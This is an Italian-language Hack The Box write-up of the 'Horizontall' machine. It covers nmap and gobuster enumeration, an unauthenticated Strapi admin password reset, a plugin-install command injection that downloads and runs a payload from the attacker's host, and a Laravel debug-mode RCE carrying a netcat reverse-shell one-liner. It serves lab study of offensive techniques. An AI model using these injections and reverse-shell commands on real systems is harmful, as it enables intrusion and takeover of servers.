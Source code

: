 #+TITLE: HTB - Horizontall
#+AUTHOR: Leonardo Tamiano

* Eumeration
** nmap
*** leo@kali:~/repos/horizontall$ nmap -sC -sV horizontall
    #+begin_example
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 12:12 CET
Nmap scan report for horizontall (10.129.155.27)
Host is up (0.057s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap g/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.67 seconds
    
    #+end_example

*** leo@kali:~/repos/horizontall$ nmap -p- horizontall
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 12:12 CET
Nmap scan report for horizontall (10.129.155.27)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds

  #+end_example
** gobuster
*** gobuster vhost -w ~/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb 
    #+begin_example
 ==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/leo/repos/SecLists/Discovery/DNS/subdomains-top1million-11
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/12 12:23:05 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
Progress: 47796 / 114442 (41.76%)                       ^C
[!] Keyboard interrupt detected, terminating.
panic: runtime error: invalid memory address or nil pointer dereference
[signal SIGSEGV: segmentation violation code=0x1 addr=0x0 pc=0x773b15]

goroutine 38 [running]:
github.com/OJ/gobuster/gobustervhost.(*GobusterVhost).Run(0xc0000122a0, 0xc000286af0, 0x8, 0xc00018a060, 0x1, 0x0)
        github.com/OJ/gobuster/gobustervhost/gobustervhost.go:125 +0x255
github.com/OJ/gobuster/libgobuster.(*Gobuster).worker(0xc000012300, 0xc000012cc0, 0xc00001a930)
        github.com/OJ/gobuster/libgobuster/libgobuster.go:91 +0x1de
created by github.com/OJ/gobuster/libgobuster.(*Gobuster).Start
        github.com/OJ/gobuster/libgobuster/libgobuster.go:158 +0x16a
   
    #+end_example

** www (80)
   Di default redirect automatico da ~horizontall~ a ~horizontall.htb~.
   In un file javascript ho trovato un altro sotto-dominio: ~api-prod.horizontall.htb~.

*** http://horizontall.htb/js/app.c68eb462.js
    get("http://api-prod.horizontall.htb/reviews")

*** api-prod.horizontall.htb (strapi)

**** version
     http://api-prod.horizontall.htb/admin/strapiVersion

     #+begin_src js
{"strapiVersion":"3.0.0-beta.17.4"}     
     #+end_src

**** leo@kali:~/repos/horizontall$ curl -v http://api-prod.horizontall.htb
     #+begin_example
 Trying 10.129.155.27:80...
 Connected to api-prod.horizontall.htb (10.129.155.27) port 80 (#0)
> GET / HTTP/1.1
> Host: api-prod.horizontall.htb
> User-Agent: curl/7.81.0
> Accept: */*
> 
  Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Sat, 12 Mar 2022 11:31:48 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 413
< Connection: keep-alive
< Vary: Origin
< Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
< Strict-Transport-Security: max-age=31536000; includeSubDomains
< X-Frame-Options: SAMEORIGIN
< X-XSS-Protection: 1; mode=block
< Last-Modified: Wed, 02 Jun 2021 20:00:29 GMT
< Cache-Control: max-age=60
< X-Powered-By: Strapi <strapi.io>     
     #+end_example

**** leo@kali:~/repos/horizontall$ searchsploit "strapi" -w

     #+begin_example
(Unauthenticated)                                                                              | https://www.exploit-db.com/exploits/50237
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                           | https://www.exploit-db.com/exploits/50238
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                     | https://www.exploit-db.com/exploits/50239
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                       | https://www.exploit-db.com/exploits/50716     
     #+end_example

**** CVE-2019-18818 (set password Unauthenticated)
     Ho trovato il seguente script

     https://www.exploit-db.com/exploits/50237

     poi ho visto che la prima POST che fa all'endpoint
     ~/admin/plugins/users-permissions/auth/reset-password~ non è
     servito (almeno da quello che ho visto), e l'unica cosa che serve
     per resettare la password dell'acount admin
     (admin@horizontall.htb) è una POST all'endpoint
     ~/admin/auth/reset-password~
     
     #+begin_example
POST /admin/auth/reset-password HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 72
Content-Type: application/json

{"code": {}, "password": "password", "passwordConfirmation": "password"}     
     #+end_example

     Una volta fatto questo possiamo entrare nell'account ~admin:password~.

**** CVE-2019-19609 (RCE Authenticated)
     Ho trovato questo script
     
     https://www.exploit-db.com/exploits/50238

     e l'ho modificato per fare due richieste POST
     
     #+begin_src python
postData_1 = { "plugin":"documentation && $(curl http://10.10.14.24:1337/python3.py > /tmp/python3.py)" }
r = s.post(url + "/admin/plugins/install", headers=headersData, data=postData_1, verify=False, proxies=proxies) # SSL == verify=True

postData_2 = { "plugin":"documentation && $(python3 /tmp/python3.py)" }
r = s.post(url + "/admin/plugins/install", headers=headersData, data=postData_2, verify=False, proxies=proxies) # SSL == verify=True
     #+end_src

     e così facendo ho spawnato una revshell remota.

* PrivEsc

** strapi@horizontall:~/myapi/config/environments/development$ cat database.json 
   #+begin_src js
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}   
   #+end_src

** mysql
   #+begin_src sh
   mysql strapi -h localhost -u developer -p
   #+end_src
   
   Non c'è nulla di utile a quanto pare
   
   #+begin_example
mysql> show tables;
+------------------------------+
| Tables_in_strapi             |
+------------------------------+
| core_store                   |
| reviews                      |
| strapi_administrator         |
| upload_file                  |
| upload_file_morph            |
| users-permissions_permission |
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
8 rows in set (0.00 sec)   
   #+end_example
** netstat
*** root@horizontall:/home/developer/myproject# netstat -ltpn
    #+begin_example
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1499/nginx: master  
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1426/sshd           
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1963/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      2926/php7.4         
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1547/mysqld         
tcp6       0      0 :::80                   :::*                    LISTEN      1499/nginx: master  
tcp6       0      0 :::22                   :::*                    LISTEN      1426/sshd               
    #+end_example
   
** laravel
*** CVE-2021-3129 (debug-mode RCE)
   https://www.ambionics.io/blog/laravel-debug-rce
   
   Dato che la versione di laravel era <= v8.4.2 ho utilizzato il
   seguente script per ottenere una RCE 

   https://www.exploit-db.com/exploits/49424
   
   L'unico cambiamento era rispetto alla path contenente il file
   ~laravel.log~.
   
   Al posto di utilizzare la path di default
   
   #+begin_example
   /var/www/html/laravel/storage/logs/laravel.log
   #+end_example
   
   L'idea era di utilizzare la seguente path
   
   #+begin_example
   /home/developer/myproject/storage/logs/laravel.log
   #+end_example

   Il comando finale per ottenere una rev shell è il seguente
   
   #+begin_example
   python3 laravel_rce.py http://localhost:1337 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.24 4444 >/tmp/f'   
   #+end_example

   dove si suppone l'esistenza di un tunnel SSH creato nel seguente
   modo dopo aver inserito in ~/opt/strapi/.ssh/authorized_keys~ una
   chiave pubblica generata con ~ssh-keygen -t rsa~
   
   #+begin_example
   ssh -i strapi -L 1337:localhost:8000 strapi@horizontall
   #+end_example

* Resources
  https://www.ambionics.io/blog/laravel-debug-rce
